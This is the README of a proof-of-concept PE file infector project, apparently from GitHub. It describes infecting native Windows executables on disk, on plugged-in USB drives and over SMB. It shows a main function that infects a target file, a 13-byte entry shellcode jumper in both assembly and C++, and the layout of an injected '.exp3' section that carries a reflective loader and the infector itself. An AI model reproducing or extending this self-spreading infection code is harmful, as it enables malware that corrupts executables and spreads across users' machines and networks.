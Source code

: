 # FileInfector


## About

This project is a POC code, easy to use, for infecting PE files with a other executable code.
You can interact with this code to infect any files in the harddisk, monitor for USB plug ins and infect their executables, infect over SMB and more.

For now it only works for Native executables (written in CPP / C)

The code is written with custom std aims to lower the size of the executable!

## Infecting a File

The code executes the main function, whenever it infects a file it will infect it with the current main function! So you need to care about the main function can run in multiple files simultaneously.

For example I created a simple executable which pops a MessageBox, I changed the main function to Infect the specific file (you can also infect multiple files and wait for USB connections and more)

```cpp{.line-numbers}
int main()
{
    MessageBoxA(0, "", "INFECTED", 0);

    bool succeed = Infector::InfectFile(L"C:\\Users\\Yoav\\Desktop\\YoavTools\\_shared\\FileInfector\\x64\\Release\\MessageBox - Copy.exe");

    if (succeed)
    {
        MessageBoxA(0, "", "INFECTED2", 0);
    }

    return 0;
}
```

The 'MessageBox - Copy.exe' file was infected with our code, what is the code? whatever we want... right now it is the code running in the main function, which will try to infect it again (that will not work because there is a mechanism that checks whether the file was already infected).

Here we can see the difference between to normal and infected file sizes
![Difference Size](https://raw.githubusercontent.com/yoavshah/FileInfector/refs/heads/master/imgs/InfectedFileVsNormalFile.png)


Here we can see the normal file is executing
![Normal file executing](https://raw.githubusercontent.com/yoavshah/FileInfector/refs/heads/master/imgs/NormalFileRunning.png)

Here we can see that the infected file is being executed and first executing our main function, which pop ups a message box, then trying to infect the same file without success.
![Normal file executing](https://raw.githubusercontent.com/yoavshah/FileInfector/refs/heads/master/imgs/InfectedFileRunningTheInfectedCodeFirst.png)

## How it works

Let's have a look at the InfectFile, for now there is only support for the Native version without the dotnet version.

We first create a 13 bytes long shellcode that will jump to our other shellcode, why? so we can insert those 13 bytes shellcode to the `.text` section and avoid being easly detected (The entrypoint will still point to the `.text` section)

The entry shellcode is the following
```assembly
PUSH RAX // 0x50 - to align the stack to 16
CALL REL // 0xE8 <Relative address to the next shellcode>
POP RAX // 0x58
JMP REL // 0xE9 <Relative address for the old main function>
```

```cpp
unsigned char shellcodeJumper[13];
shellcodeJumper[0] = 0x50; // PUSH RAX - TO ALIGN STACK TO 16
shellcodeJumper[1] = 0xE8; // CALL REL
*reinterpret_cast<DWORD*>(&shellcodeJumper[2]) = 0x01234567; // Relative address of new main function
shellcodeJumper[sizeof(DWORD) + 2] = 0x58; // POP EAX - TO REARENGE THE STACK FRAME BACK
shellcodeJumper[sizeof(DWORD) + 3] = 0xE9; // JMP REL
*reinterpret_cast<DWORD*>(&shellcodeJumper[sizeof(DWORD) + 4]) = 0x89ABCDEF; // Relative address of old main function
```

Now we use some functions that helps us get the code to infect with, the code is the constant `.exp3` section and if not found it means that this is the main infector file! so we will get the whole PE file and add above it a reflective injection shellcode to make it PIC.

After we got the code to inject with, we need to check if the executable is already infected, it is done by checking if specific section (`.exp3`) exists.

Later we infect the executable which searches for a code cave in the `.text` section, add the shellcode jumper to it. adds another section header and a section to the PE file that contains the reflective shellcode injector and underneath it (literally) adds the infector PE file. It also changes the relative addresses of the shellcode jumper it created earlier, fixing some values in the PE header (AddressOfEntryPoint...) and then just saves the newly modified file!

```
.text
    normal code
    - code cave (shellcode jumper) -------->
    normal code                            |
                                           |
.exp3                                      |
                                  <--------
    [shellcode reflective injector - doing reflective injection on the code underneath it]  
    [The infector PE file - executing the main code]
    returns to the shellcode jumper - [which calls the original main after]

```

![Infected file vs Normal file section headers](https://raw.githubusercontent.com/yoavshah/FileInfector/refs/heads/master/imgs/InfectedFileVsNormalFileSectionHeaders.png)

![Infected file vs Normal file AddressOfEntry](https://raw.githubusercontent.com/yoavshah/FileInfector/refs/heads/master/imgs/InfectedFileVsNormalFileAddressOfEntry.png)
